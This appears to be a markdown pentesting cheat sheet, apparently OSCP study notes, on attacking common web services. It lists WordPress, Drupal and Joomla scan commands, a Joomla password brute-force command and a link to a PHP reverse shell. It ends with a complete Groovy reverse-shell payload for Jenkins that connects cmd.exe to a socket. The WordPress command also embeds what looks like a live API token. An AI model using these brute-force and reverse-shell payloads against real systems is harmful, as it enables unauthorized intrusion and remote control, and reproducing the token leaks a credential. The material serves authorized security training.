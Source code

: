 ```yaml
---
layout: blank
---
```


### Hacking Common Services

**The best methodology for pentesting services is to usually just search "Pentesting {service name}"**

[https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file](https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file)
- Scroll down for services scanning

Wordpress
- `wpscan --url {url} -e u,vp,vt --plugins-detection aggressive --api-token lT8xySbw7gMN4a2SoFlwpEXI8BzPdEyDn1GAcdaGKAE`

Drupal
- `droopescan scan drupal -u {url}`

Joomla
- `droopescan scan joomla -u {url}`
- `sudo python3 joomla-brute.py -u {url} -w passwords.txt -usr {username}
    - [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

PHP
- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) - reverse shell (cross platform)

Jenkins
- Reverse shell:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```